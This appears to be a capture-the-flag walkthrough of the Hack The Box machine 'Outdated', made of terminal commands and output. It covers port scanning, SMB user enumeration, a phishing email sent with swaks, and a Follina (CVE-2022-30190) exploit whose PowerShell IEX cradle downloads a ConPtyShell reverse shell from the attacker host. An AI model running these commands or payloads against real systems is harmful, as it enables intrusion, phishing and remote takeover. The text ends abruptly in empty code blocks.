

# Outdated

```bash
TARGET=10.10.11.175
```

```bash
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 18:51 PDT
Nmap scan report for 10.10.11.175
Host is up (0.097s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49916/tcp open  unknown
49937/tcp open  unknown
51807/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
```

```bash
$ sudo nmap -p 25,53,88,135,139,389,445,464,593,636,3268,3269,8530,8531,9389 -sV -sC $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 18:53 PDT
Nmap scan report for 10.10.11.175
Host is up (0.092s latency).

PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-23 09:54:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-23T09:55:24+00:00; +8h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-23T09:55:23+00:00; +8h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-06-23T09:55:24+00:00; +8h00m04s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-06-23T09:55:23+00:00; +8h00m04s from scanner time.
8530/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
8531/tcp open  unknown
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m03s, deviation: 0s, median: 8h00m03s
| smb2-time: 
|   date: 2024-06-23T09:54:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.99 seconds
```

```bash
$ cat /etc/hosts | grep $TARGET
10.10.11.175  outdated.htb dc.outdated.htb mail.outdated.htb
```

```bash
$ netexec smb $TARGET -u 'kali' -p '' --rid-brute
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\kali: 
SMB         10.10.11.175    445    DC               498: OUTDATED\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               500: OUTDATED\Administrator (SidTypeUser)
SMB         10.10.11.175    445    DC               501: OUTDATED\Guest (SidTypeUser)
SMB         10.10.11.175    445    DC               502: OUTDATED\krbtgt (SidTypeUser)
SMB         10.10.11.175    445    DC               512: OUTDATED\Domain Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               513: OUTDATED\Domain Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               514: OUTDATED\Domain Guests (SidTypeGroup)
SMB         10.10.11.175    445    DC               515: OUTDATED\Domain Computers (SidTypeGroup)
SMB         10.10.11.175    445    DC               516: OUTDATED\Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               517: OUTDATED\Cert Publishers (SidTypeAlias)
SMB         10.10.11.175    445    DC               518: OUTDATED\Schema Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               519: OUTDATED\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               520: OUTDATED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.175    445    DC               521: OUTDATED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               522: OUTDATED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               525: OUTDATED\Protected Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               526: OUTDATED\Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               527: OUTDATED\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               553: OUTDATED\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.175    445    DC               571: OUTDATED\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               572: OUTDATED\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               1000: OUTDATED\WSUS Administrators (SidTypeAlias)
SMB         10.10.11.175    445    DC               1001: OUTDATED\WSUS Reporters (SidTypeAlias)
SMB         10.10.11.175    445    DC               1002: OUTDATED\DC$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1103: OUTDATED\DnsAdmins (SidTypeAlias)
SMB         10.10.11.175    445    DC               1104: OUTDATED\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.175    445    DC               1105: OUTDATED\CLIENT$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1106: OUTDATED\btables (SidTypeUser)
SMB         10.10.11.175    445    DC               1107: OUTDATED\ITStaff (SidTypeGroup)
SMB         10.10.11.175    445    DC               1108: OUTDATED\sflowers (SidTypeUser)
```

```bash
$ cat tmp.list | grep 'SidTypeUser' | awk '{print $6}' | awk -F '\' '{print $2}' | sort -u | grep -v '\$$' | tr '[:upper:]' '[:lower:]' > users.list

$ cat users.list

administrator
btables
guest
krbtgt
sflowers

$ cat users.list | grep -v krbtgt > tmp.list; mv tmp.list users.list

$ cat users.list
administrator
btables
guest
sflowers
```

```bash
$ netexec smb $TARGET -u users.list -p users.list --no-bruteforce --continue-on-success
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [-] outdated.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\btables:btables STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\sflowers:sflowers STATUS_LOGON_FAILURE
```

```bash
$ impacket-GetNPUsers outdated.htb/ -usersfile users.list -format hashcat -outputfile hashes.asreproast 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User btables doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sflowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```bash
$ netexec smb $TARGET -u users.list -p '' --shares                      
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [-] outdated.htb\administrator: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\btables: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\sflowers: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [+] outdated.htb\guest: 
SMB         10.10.11.175    445    DC               [*] Enumerated shares
SMB         10.10.11.175    445    DC               Share           Permissions     Remark
SMB         10.10.11.175    445    DC               -----           -----------     ------
SMB         10.10.11.175    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.175    445    DC               C$                              Default share
SMB         10.10.11.175    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.175    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.175    445    DC               Shares          READ            
SMB         10.10.11.175    445    DC               SYSVOL                          Logon server share 
SMB         10.10.11.175    445    DC               UpdateServicesPackages                 A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         10.10.11.175    445    DC               WsusContent                     A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.10.11.175    445    DC               WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```

```bash
$ netexec smb $TARGET -u 'guest' -p '' -M spider_plus
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\guest: 
SPIDER_PLUS 10.10.11.175    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.175    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.175    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.175    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.175    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.175    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.11.175    445    DC               [*] Enumerated shares
SMB         10.10.11.175    445    DC               Share           Permissions     Remark
SMB         10.10.11.175    445    DC               -----           -----------     ------
SMB         10.10.11.175    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.175    445    DC               C$                              Default share
SMB         10.10.11.175    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.175    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.175    445    DC               Shares          READ            
SMB         10.10.11.175    445    DC               SYSVOL                          Logon server share 
SMB         10.10.11.175    445    DC               UpdateServicesPackages                 A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         10.10.11.175    445    DC               WsusContent                     A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.10.11.175    445    DC               WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
SPIDER_PLUS 10.10.11.175    445    DC               [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.11.175.json".
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Shares:           9 (ADMIN$, C$, IPC$, NETLOGON, Shares, SYSVOL, UpdateServicesPackages, WsusContent, WSUSTemp)
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Readable Shares:  2 (IPC$, Shares)
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.175    445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.10.11.175    445    DC               [*] Total files found:    1
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size average:    104.47 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size min:        104.47 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size max:        104.47 KB
```

```bash
$ cat /tmp/nxc_spider_plus/10.10.11.175.json 
{
    "Shares": {
        "NOC_Reminder.pdf": {
            "atime_epoch": "2022-06-20 08:01:36",
            "ctime_epoch": "2022-06-19 18:14:47",
            "mtime_epoch": "2022-06-20 08:00:33",
            "size": "104.47 KB"
        }
    }
} 
```

```bash
$ smbclient //$TARGET/Shares -N -I $TARGET --user 'guest' --password ''
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 08:01:33 2022
  ..                                  D        0  Mon Jun 20 08:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 08:00:32 2022

                9116415 blocks of size 4096. 1815983 blocks available
smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (81.7 KiloBytes/sec) (average 81.7 KiloBytes/sec)
smb: \> exit
```


> Due to last week’s security breach we need to rebuild some of our core servers. This has impacted a handful of our workstations, update services, monitoring tools and backups. As we work to rebuild, please assist our NOC by e-mailing a link to any internal web applications to `itsupport@outdated.htb` so we can get them added back into our monitoring platform for alerts and notifications.
>
> We have also onboarded a new employee to our SOC to assist with this matter and expedite the recovery of our update services to ensure all critical vulnerabilities are patched and servers are up to date.  The CVE list below is top priority, and we must ensure that these are patched ASAP.
>
> Thank you in advance for your assistance. If you have any questions, please reach out to the mailing list above.

| CVE | Description |
| -- | -- |
| CVE-2022-30190 | Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code Execution Vulnerability |
| CVE-2022-30138 | Windows Print Spooler Elevation of Privilege Vulnerability |
| CVE-2022-30129 | Visual Studio Code Remote Code Execution Vulnerability |
| CVE-2022-29130 | Windows LDAP Remote Code Execution Vulnerability |
| CVE-2022-29110 | Microsoft Excel Remote Code Execution Vulnerability |

## CVE-2022-30190 - Follina

```bash
$ sudo nc -lvnp 80                          
listening on [any] 80 ...
```

```bash
$ swaks --to itsupport@outdated.htb --from kali@hacker.com --header "Subject: Web" --body "please click here http://10.10.14.3/test.html" --server $TARGET
=== Trying 10.10.11.175:25...
=== Connected to 10.10.11.175.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<kali@hacker.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sat, 22 Jun 2024 23:47:35 -0700
 -> To: itsupport@outdated.htb
 -> From: kali@hacker.com
 -> Subject: Web
 -> Message-Id: <20240622234735.228096@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.14.3/test.html
 -> 
 -> 
 -> .
<-  250 Queued (10.594 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

```bash
$ sudo nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.175] 49834
GET /test.html HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.906
Host: 10.10.14.3
Connection: Keep-Alive
```

> WindowsPowerShell/5.1.19041.906 = KB5000842



```bash
$ git clone https://github.com/chvancooten/follina.py.git
Cloning into 'follina.py'...
remote: Enumerating objects: 131, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 131 (delta 11), reused 8 (delta 8), pack-reused 109
Receiving objects: 100% (131/131), 51.61 KiB | 1.36 MiB/s, done.
Resolving deltas: 100% (58/58), done.

$ cd follina.py

$ mkdir www

$ wget https://github.com/antonioCoco/ConPtyShell/raw/master/Invoke-ConPtyShell.ps1 -O www/Invoke-ConPtyShell.ps1
...
2024-06-23 00:20:55 (2.03 MB/s) - ‘www/Invoke-ConPtyShell.ps1’ saved [72846/72846]

$ echo "Invoke-ConPtyShell 10.10.14.3 9001" >> www/Invoke-ConPtyShell.ps1
```

```bash
$ sudo python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-ConPtyShell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```

```bash
$ stty raw -echo; (stty size; cat) | nc -lvnp 9001
listening on [any] 9001 ...
```

```bash
$ sudo python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-ConPtyShell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
10.10.11.175 - - [23/Jun/2024 00:32:32] "GET /exploit.html HTTP/1.1" 200 -
10.10.11.175 - - [23/Jun/2024 00:32:34] "GET /Invoke-ConPtyShell.ps1 HTTP/1.1" 200 -
```

```bash
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\btables\AppData\Local\Temp\SDIAG_7a49cd60-49a5-405b-a268-52e1ce0bde5f> whoami
outdated\btables
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```
